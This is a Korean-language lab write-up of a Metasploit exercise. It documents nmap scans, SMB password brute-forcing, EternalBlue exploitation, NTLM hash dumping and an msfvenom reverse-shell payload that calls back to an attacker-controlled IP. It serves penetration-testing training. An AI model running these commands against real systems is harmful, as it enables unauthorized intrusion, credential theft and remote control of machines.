# Metasploit

> 본 실습은 Metasploit Framework를 활용하여 정보 수집, 취약점 분석, 익스플로잇, 사후 활동까지 전 과정을 수행하고 문서화한 것입니다.

---

## 1. Metasploit 이란?

Metasploit은 정보 수집부터 취약점 공격, 그리고 공격 이후 사후 작업까지 침투 테스트 전 과정을 지원하는 강력한 도구입니다.

Metasploit Framework는 다양한 모듈과 도구들이 모여 있는 프레임워크로, 주로 침투 테스트 및 취약점 분석, Exploit 개발 등에 사용됩니다.

- **주요 구성 요소**
  - **msfconsole**: 명령줄 인터페이스
  - **Modules**: exploits, scanners, payloads 등 다양한 기능 제공
  - **Tools**: 독립 도구 (취약점 연구 및 침투 테스트 지원)
  - **msfvenom**: 페이로드 생성 도구
  - **pattern_create / pattern_offset**: 익스플로잇 개발 지원 도구

---

## 2. 정보 수집

### 2.1 포트 스캔

- 명령어:
```bash
nmap -sV 10.10.110.43
```

- 결과:
  - 총 5개 포트 열림 확인



---

### 2.2 Web 서버 정보 수집

- 8000번 포트에서 어떤 서비스가 실행 중인지 확인
- Metasploit 모듈: `auxiliary/scanner/http/http_version`

- 설정:
```bash
set rhosts 10.10.110.43
set rport 8000
run
```



- 결과: WebFS 1.21 웹 서버 사용 확인

---

## 3. SMB Brute-force 및 인증 우회

- Metasploit 모듈: `auxiliary/scanner/smb/smb_login`
- 설정:
```bash
set rhosts 10.10.110.43
set smbuser penny
set pass_file /usr/share/wordlists/metasploit/MetasploitWordlist.txt
run
```



- 결과: `penny:leo1234` 계정 인증 성공



---

## 4. Exploitation (익스플로잇)

### 4.1 운영체제 버전 파악

- 명령어:
```bash
nmap -sV -T4 10.10.192.251
```

- 결과: Windows 7 ~ 10 운영 체제 추정



- 추가 모듈: `auxiliary/scanner/smb/smb_version` 사용하여 정확한 버전 확인



- 최종 결과: Windows 7 Professional SP1

---

### 4.2 EternalBlue 취약점 공격

- 모듈: `exploit/windows/smb/ms17_010_eternalblue`
- 명령어:
```bash
set rhosts 10.10.192.251
set rport 445
set payload windows/x64/meterpreter/reverse_tcp
exploit
```

- 결과: Meterpreter 세션 획득



- flag.txt 파일 검색 및 열람 성공



---

### 4.3 사용자 해시 덤프

- 명령어:
```bash
hashdump
```

- pirate 사용자 NTLM 해시 추출 성공



---

## 5. Msfvenom을 활용한 리버스 쉘 획득 (Linux 대상)

### 5.1 SSH 접속

- 문제에 나와있는 아이디 비밀번호를 통해 murphy 사용자로 SSH 접속 성공



### 5.2 리버스 쉘 생성 및 실행

- msfvenom 명령어:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.21.63.129 LPORT=4444 -f elf > rev_shell.elf
```

- 생성된 파일 확인:



- murphy 사용자 sudo su로 루트 권한 상승 후 전송 및 실행 준비 완료



### 5.3 리버스 쉘 수신 및 Meterpreter 세션 획득

- 모듈: `exploit/multi/handler`
- 설정 후 exploit 실행



- 결과: Meterpreter 세션 열림



---

## 6. 배운 점

- 포트 스캔 및 서비스 식별 과정의 중요성을 체감했다.
- Metasploit 모듈 구조와 옵션 설정 방법을 익혔다.
- SMB 취약점을 통한 인증 우회 및 시스템 접근을 경험했다.
- EternalBlue 공격 시나리오를 실습하여 실제 취약점 악용 방법을 이해했다.
- msfvenom을 통한 리버스 쉘 생성 및 수신 과정을 체득했다.
- 초기 정찰(Enumeration) 단계가 침투 성공의 핵심임을 체감했다.

---

## 7. 실습 세부 정보 (Environment)

- 실습 날짜: 2025-04-13 ~ 2025-04-15
- 실습 환경: Kali Linux 2023.4
- 사용 도구:
  - **nmap**: 네트워크 포트 및 서비스 스캔
  - Metasploit Framework (msfconsole, msfvenom):
   - **msfconsole**: Metasploit Framework의 메인 인터페이스로 모듈 검색, 설정, 실행
   - **msfvenom**: 리버스 쉘 등의 페이로드 생성 도구
  - 다양한 Metasploit Modules (auxiliary, exploit, payload):
   - **auxiliary 모듈**: 정보 수집, 스캐닝 및 인증 크랙(예: smb_login, smb_version)
   - **exploit 모듈**: 취약점(예: EternalBlue) 공격 및 원격 코드 실행
   - **payload 모듈**: 시스템 침투 시 사용하는 코드(예: meterpreter/reverse_tcp)


